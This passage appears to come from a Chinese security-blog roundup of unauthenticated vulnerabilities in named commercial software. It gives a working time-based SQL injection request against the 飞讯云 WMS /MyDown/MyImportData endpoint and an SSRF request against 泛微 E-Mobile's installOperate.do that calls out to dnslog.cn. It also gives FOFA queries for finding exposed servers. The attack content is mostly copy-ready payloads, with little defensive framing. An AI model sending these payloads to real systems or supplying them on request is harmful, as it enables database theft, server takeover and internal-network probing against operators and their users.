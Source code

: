 2.效果图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VF6FaFcTtnCqwBCwZqB63yadSbPxxXqIBWOzxZCxsLBF1ud4AsGMIS0B77gFslAHlyHVNIbKiaxBwA/640?wx_fmt=png&from=appmsg "")  
## 1.3飞讯云--SQL  
### 1.3.1payload  
```
GET /MyDown/MyImportData?opeid=' WAITFOR DELAY '0:0:5'-- AtpN HTTP/1.1
Host: ip
```  
## 1.4飞讯云-云WMS仓库管理系统-SQL  
### 1.4.1漏洞简介  
  
飞讯云-WMS /MyDown/MyImportData 接口处存在前台SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VF6FaFcTtnCqwBCwZqB63yaUDdXkPwFcR0OQBSVNvvHa0vYdibZ7r2TTkDN4xSuDsS8iad14OH3f9pw/640?wx_fmt=png&from=appmsg "")  
### 1.4.2资产收集  
  
fofa语法：  
  
body="wx8ccb75857bd3e985"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VF6FaFcTtnCqwBCwZqB63ya7GVhTYCibJFicm0q537SJGyRXeVLeoLsYuDBfb5gRdwgsHhm1LW61wKg/640?wx_fmt=png&from=appmsg "")  
### 1.4.3 payload  
```
GET /MyDown/MyImportData?opeid=1%27+WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VF6FaFcTtnCqwBCwZqB63yaEGMY5iaO7mg6xjRTm0kYYv28LzdZP8FIeicOsXIt226GD0vl8PdFAN2A/640?wx_fmt=png&from=appmsg "")  
## 1.5泛微-E-Mobile 移动管理平台-PermissionAC  
  
泛微E-Mobile installOperate.do 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。  
### 1.5.1payload  
  
fofa语法：  
  
header="EMobileServer"  
  
   
```
GET /install/installOperate.do?svrurl=http://dnslog.cn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Copy to clipboardErrorCopied
效果图：
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VF6FaFcTtnCqwBCwZqB63ya04qPXHichoMzZ5Xle1GSTDox2Bib6o1cxp99Fpu2X2yze7jpQFuedQiaQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
